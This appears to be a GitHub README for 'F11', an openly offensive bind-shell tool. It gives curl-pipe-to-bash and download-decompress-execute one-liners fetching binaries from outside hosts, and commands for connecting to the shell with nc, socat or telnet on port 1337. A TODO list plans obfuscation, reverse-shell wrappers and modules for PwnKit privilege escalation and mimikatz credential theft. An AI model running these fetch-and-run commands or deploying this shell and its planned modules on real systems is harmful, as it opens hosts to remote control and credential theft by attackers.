 # F11 - Fully Featured Bind Shell
### *The SnipeSocket*

EST. Apr 23, 2022

## One curl to rule them all

```bash
# Fuk it just do everything for me
curl -sL https://f11.sh | bash
```

### Just connect to bind host:port
```bash
# Connect to F11 bind server (IP:1337)
socat stdio tcp:localhost:1337
```

```bash
# Also works with netcat & telnet :)
nc localhost 1337
```

```bash
# Or for the old guys
telnet localhost 1337
```

## PoC

![poc](https://user-images.githubusercontent.com/26688050/165448887-1982ecc2-1ca8-4c91-8ea1-20c7f63a5541.gif)


*Stay tuned! More to come on [f11.sh](https://f11.sh)*

## Install via NPM

```bash
npm i -g f11 && f11
```

## Standalone hosted (compressed) binaries
- [f11-linux.xz](https://f11snipe.sh/f11-linux.xz)
- [f11-macos.xz](https://f11snipe.sh/f11-macos.xz)
- [f11-win.exe.xz](https://f11snipe.sh/f11-win.exe.xz)


## Dedicated platform one-liner (linux)

```bash
rm /tmp/f11-linux; curl -sL https://f11snipe.sh/f11-linux.xz -o /tmp/f11-linux.xz && xz -d /tmp/f11-linux.xz && chmod +x /tmp/f11-linux && /tmp/f11-linux
```

## Dedicated platform one-liner (osx)

```bash
rm /tmp/f11-macos; curl -sL https://f11snipe.sh/f11-macos.xz -o /tmp/f11-macos.xz && xz -d /tmp/f11-macos.xz && chmod +x /tmp/f11-macos && /tmp/f11-macos
```


## Dedicated platform one-liner (windows)

```bash
rm /tmp/f11-win.exe; curl -sL https://f11snipe.sh/f11-win.exe.xz -o /tmp/f11-win.exe.xz && xz -d /tmp/f11-win.exe.xz && chmod +x /tmp/f11-win.exe && /tmp/f11-win.exe
```

## Build from source

```bash
# Run all build steps
npm install
npm run ci
```


### Individual build steps
```bash
# Install npm packages
npm install

# Build TypeScript
npm build

# Compile
npm run compile

# Compress
npm run compress
```

## TODO

#### Cleanup
- better intro/helper messaging

#### Core features
- command history
- module groups, tags, etc?
- plugins? (additional features, how would this differ from modules? "extending")
- built-in encoder
  - relay/lookup via online services? (cyber-chef, cracks, common encodings, etc)
- support both TCP + TLS (with unique credentials)
- basic http(s) server to serve as web host/relay (on isolated VPN, i.e. THM)
  - web gui??
- add simple bash "stabilizer" wrapper to spawn nc/socat reverse connection
- support both "bind" and "rev" client/server open port scenarios
- better handling of navigation and special characters, signals, etc


#### Obfuscation
- LATER

#### Modules to support
- pwnkit
  - https://github.com/ly4k/PwnKit
- mimikatz (windows)
  - https://github.com/ParrotSec/mimikatz
- SUID/SUDO/CAP/
  - https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid

#### Contributions
- Please feel free to contribute!

